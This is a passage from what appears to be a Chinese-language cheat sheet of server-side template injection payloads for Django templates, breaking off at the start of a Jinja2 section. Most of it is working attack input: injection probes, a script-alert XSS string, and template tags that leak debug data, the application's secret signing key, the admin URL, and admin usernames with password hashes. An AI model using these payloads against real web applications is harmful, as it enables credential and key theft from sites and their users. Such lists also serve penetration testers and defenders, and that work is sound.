 ## Django

Django模板语言默认支持2种渲染引擎：Django模板(DT)和Jinja2。Django模板是一个更简单的引擎。它不允许调用传递的对象函数，DT中的SSTI影响通常比Jinja2小。

### Django - 基础注入

```python
{% csrf_token %} # 在Jinja2中会导致错误
{{ 7*7 }}  # 在Django模板中会出错
ih0vr{{364|add:733}}d121r # Burp Payload -> ih0vr1097d121r
```

### Django - 跨站脚本

```python
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

### Django - 调试信息泄露

```python
{% debug %}
```

### Django - 泄露应用密钥

```python
{{ messages.storages.0.signer.key }}
```

### Django - 管理员站点URL泄露

```python
{% include 'admin/base.html' %}
```

### Django - 管理员用户名和密码哈希泄露

```python
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

{% get_admin_log 10 as admin_log for_user user %}
```

---

## Jinja2

[官方网站](https://jinja.palletsprojects.com/)
> Jinja2是Python的一个功能丰富的模板引擎。它具有完整的Unicode支持，可选的集成沙箱执行环境，被广泛使用且采用BSD许可。

### Jinja2 - 基础注入
